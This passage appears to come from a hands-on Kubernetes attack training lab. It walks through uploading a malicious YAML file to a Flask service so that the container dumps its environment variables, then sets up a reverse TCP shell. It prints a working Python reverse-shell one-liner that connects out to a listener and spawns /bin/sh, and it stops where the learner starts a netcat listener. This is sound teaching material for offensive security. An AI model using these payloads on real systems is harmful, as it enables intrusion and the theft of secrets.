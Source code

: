 
##### Step 4:

* Navigate to `payloads` directory that has malicious yaml files

```bash
cd /root/container_training/Kubernetes/K8s-Cluster-Attack/payloads
```

* Upload a malicious yaml file and identify the flaw

```bash
http --form POST $NGFLASK/upload file@test_payment.yml
```

It should come back with a response similar to the one below

```
HTTP/1.1 200 OK
Connection: keep-alive
Content-Length: 26
Content-Type: application/json
Date: Thu, 03 Jan 2019 14:35:30 GMT
Server: nginx/1.11.13

{
    "success": "stored"
}
```

* Verify if the malicious transaction that was generated.

```bash
curl -XGET $NGFLASK/status
```

You should see a dump of all Environment variable on the container

### Reverse TCP Shell on our K8s Cluster

##### Step 5:

* Get the Server-IP and copy the value.

```bash
serverip
```

* In the `payloads` directory, edit `line 2` of `reverse_shell.yml` and replace `Server-IP` with value of `serverip` fetched in the previous step.

EXAMPLE:

```
["echo 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"192.168.1.1\",1337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);' > shell.py && python shell.py &"]
```

* Open a new tab on the terminal, access the server via. `ssh` and start your netcat listener
